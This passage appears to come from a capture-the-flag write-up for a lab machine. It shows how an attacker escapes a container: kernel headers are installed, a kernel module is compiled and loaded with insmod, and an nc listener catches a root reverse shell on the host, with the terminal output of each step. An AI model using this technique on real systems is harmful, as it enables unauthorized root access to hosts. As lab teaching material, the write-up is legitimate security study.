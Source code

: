 Afterwards we install both packages with `dpkg`.

```js
root@91d87563a4c2:/# dpkg -i linux-headers-4.15.0-132-generic_4.15.0-132.136_amd64.deb
(Reading database ... 79019 files and directories currently installed.)
Preparing to unpack linux-headers-4.15.0-132-generic_4.15.0-132.136_amd64.deb ...
Unpacking linux-headers-4.15.0-132-generic (4.15.0-132.136) over (4.15.0-132.136) ...
Setting up linux-headers-4.15.0-132-generic (4.15.0-132.136) ...
root@91d87563a4c2:/# dpkg -i linux-headers-4.15.0-132_4.15.0-132.136_all.deb
(Reading database ... 79019 files and directories currently installed.)
Preparing to unpack linux-headers-4.15.0-132_4.15.0-132.136_all.deb ...
Unpacking linux-headers-4.15.0-132 (4.15.0-132.136) over (4.15.0-132.136) ...
Setting up linux-headers-4.15.0-132 (4.15.0-132.136) ...
```

With all conditions met we can now finally `make` our kernel module.

```js
root@91d87563a4c2:/root# make
make -C /lib/modules/4.15.0-142-generic/build M=/root modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
  CC [M]  /root/grem.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/grem.mod.o
  LD [M]  /root/grem.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'
```

This gives use the `grem.ko` module which we now can install. Before we do that we setup our listener.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

And upon installing it we recieve a reverseshell as `root` on the host system.

```js
root@91d87563a4c2:/root# insmod grem.ko
```

```js
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.136.121.
Ncat: Connection from 10.129.136.121:48762.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@monitors:/# ls /root
ls /root
root.txt
root@monitors:/#
```
